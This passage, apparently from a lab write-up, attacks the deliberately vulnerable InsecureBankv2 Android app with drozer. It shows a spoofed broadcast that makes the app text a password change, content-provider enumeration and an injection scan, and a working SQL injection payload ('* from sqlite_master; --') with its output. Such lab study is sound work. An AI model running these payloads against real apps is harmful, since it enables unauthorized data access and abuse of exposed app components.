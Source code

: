 This code defines a `BroadcastReceiver` that listens for specific intents containing a phone number and a new password. When triggered, it retrieves encrypted username and password from shared preferences, decrypts the password, and sends an SMS to the given phone number with a message about the password update. If the phone number is not provided, it logs that the phone number is null.

* Exploit send message tophone number 8888888 with new password

```bash
dz> run app.broadcast.send --action thBroadcast --extra string phonenummber 8888888 --extra string newpass Lol@88
```

<div align="center" data-full-width="true"><figure><img src="../../.gitbook/assets/image (79).png" alt="" width="145"><figcaption></figcaption></figure></div>

## Exploit Content Providers

* Find Provider URIs

```bash
dz> run app.provider.finduri com.android.insecurebankv2
Attempting to run shell module
Scanning com.android.insecurebankv2...
content://com.android.insecurebankv2.TrackUserContentProvider
content://com.google.android.gms.games
content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
content://com.android.insecurebankv2.TrackUserContentProvider/
content://com.google.android.gms.games/
content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
```

* Scan for Injection

```bash
dz> run scanner.provider.injection -a com.android.insecurebankv2
Attempting to run shell module
Scanning com.android.insecurebankv2...
Not Vulnerable:
  content://com.google.android.gms.games
  content://com.android.insecurebankv2.TrackUserContentProvider
  content://com.android.insecurebankv2.TrackUserContentProvider/
  content://com.google.android.gms.games/

Injection in Projection:
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/

Injection in Selection:
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/

```

* Exploit SQL Injection

```bash
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/ --projection ""
Attempting to run shell module
Exception occured: near "FROM": syntax error (code 1 SQLITE_ERROR): , while compiling: SELECT  FROM names ORDER BY name
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/ --projection "* from sqlite_master; --"
Attempting to run shell module
| type  | name             | tbl_name         | rootpage | sql                                                                            |
| table | android_metadata | android_metadata | 3        | CREATE TABLE android_metadata (locale TEXT)                                    |
```